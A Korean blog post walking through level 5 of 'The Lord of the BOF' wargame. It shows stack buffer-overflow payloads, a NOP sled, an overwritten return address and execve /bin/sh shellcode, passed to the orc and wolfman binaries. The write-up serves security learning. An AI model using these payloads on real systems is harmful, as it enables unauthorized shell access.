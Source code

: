 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 5"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level5/1.jpg" | relative_url }}' alt='relative'>  

## 1) orc/cantata 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level5/2.png" | relative_url }}' alt='relative'>  

앞서 푼 level4 문제에 buffer hunter가 추가되었습니다.  

4번과 같은 방법으로 풀면 어떤 결과가 나타날까요?  

## 2) level4에서 사용한 공격 페이로드 그래도 사용해보기  

``` bash 
// level4에서의 공격 페이로드
./orc `python -c 'print "\x90"*44+"\xfc\xfb\xff\xbf"+"\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

<img data-action="zoom" src='{{ "assets/lob/level5/3.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level5/4.png" | relative_url }}' alt='relative'>  

memset 함수가 실행하기 전, 후 스택에 저장된 값의 변화입니다.  
buffer 배열이 memset 함수 실행 후에 0x00으로 채워졌습니다.  

'A'(0x41)이 위치한 주소 중 임의로 하나를 선택해 RET에 넣어주겠습니다.  
저는 0xbffffab0 주소를 임의로 선택했습니다.  

``` bash 
./wolfman `python -c 'print "\x90"*44+"\xb0\xfa\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

<img data-action="zoom" src='{{ "assets/lob/level5/5.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level5/6.png" | relative_url }}' alt='relative'>  